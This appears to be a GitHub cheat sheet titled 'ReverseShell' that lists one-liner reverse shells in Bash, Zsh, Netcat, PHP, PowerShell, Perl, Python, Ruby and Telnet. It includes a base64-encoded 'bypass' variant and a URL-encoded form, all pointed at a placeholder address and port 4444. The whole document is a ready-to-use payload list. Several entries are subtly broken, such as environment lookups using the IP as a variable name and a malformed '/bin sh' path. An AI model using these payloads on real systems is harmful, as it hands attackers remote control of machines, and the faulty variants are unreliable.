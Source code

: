 # ReverseShell

Bash:
- bash -c 'exec bash -i &>/dev/tcp/127.0.01/4444 <&1'

Bash ByPass pipe:
- bash<<<$(base64 -d<<<YmFzaCAtYyAnZXhlYyBiYXNoIC1pICY+L2Rldi90Y3AvMTI3LjAuMDEvNDQ0NCA8JjEn)

Zsh:
- zsh -c 'zmodload zsh/net/tcp && ztcp 127.0.01 4444 && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'

Netcat:
- rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.01 4444 >/tmp/f

PHP:
- php -r '$sock=fsockopen(getenv("127.0.01"),getenv("4444"));exec("/bin/sh -i <&3 >&3 2>&3");'

PowerShell:
- powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('127.0.01',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

Perl:
- perl -e 'use Socket;$i="$ENV{127.0.01}";$p=$ENV{4444};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

Python:
- python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.01",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

Ruby:
- ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["127.0.01"],ENV["4444"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

Telnet:
- TF=$(mktemp -u); mkfifo $TF && telnet 127.0.01 4444 0<$TF | /bin sh 1>$TF
- URL Encoded: TF=$(mktemp%20-u);%20mkfifo%20$TF%20&&%20telnet%20127.0.01%204444%200%3C$TF%20%7C%20/bin%20sh%201%3E$TF
